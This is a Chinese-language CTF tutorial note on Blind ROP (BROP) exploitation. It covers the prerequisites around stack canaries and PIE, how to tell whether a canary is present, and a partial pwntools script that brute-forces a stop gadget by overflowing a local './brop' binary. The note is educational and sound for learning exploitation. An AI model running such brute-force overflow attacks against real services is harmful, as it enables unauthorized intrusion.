 # BROP

brop 一种没有二进制程序，只有一个程序服务的情况下，该程序存在栈溢出，可以通过栈溢出和程序特性进行 ROP 攻击并且提权的攻击方法。

利用前提：

1. 存在栈溢出漏洞
2. 没有开启 canary 或者 开启 pie 
3. 即使开启了 canary 或者 开启了 pie。但是 canary 和 pie 不变，这样就能够爆破得到 canary 和 pie。(多线程)



### brop 如何判断是否存在 canary 和 pie

如果存在 canary 则显示

![image-20230805111653344](./images/image-20230805111653344.png)

如果没有开启 canary![image-20230805111751762](./images/image-20230805111751762.png)

PS : 也有可能是溢出长度不够，那么这样就可以增加溢出长度测试， < 0x1000



回头看这道题目，明显这道题目没有 canary ，默认没有开启 pie，很难去控制 pie 是不变。

如果是多线程题目，那么也是很容易去通过溢出判断的，即程序 crash 后，还能继续重启。



### STEP 1 : 获取 stop_gadget ( _start 函数地址 )

stop_gadget 是一个可以帮助我们判断其它 gadget 的一个帮助指令，执行 stop_gadget 后，程序会自动挂起

难点 ： 溢出长度不确定。没有解决方法，只能爆破

爆破函数代码如下

```py
def find_stop_gadget(buf_size, start_addr = 0x400000, end_addr = 0x401000):
    stop_gadget = start_addr
    while True:
        time.sleep(0.1)
        stop_gadget += 1
        if(stop_gadget > end_addr):
        	log.info('not found!')
        	return 0
        payload = b'a' * buf_size + p64(stop_gadget)
        try: 
            p = process('./brop')
            p.sendafter(b'>>\n', payload)
            p.recv()
            p.close()
            return stop_gadget
```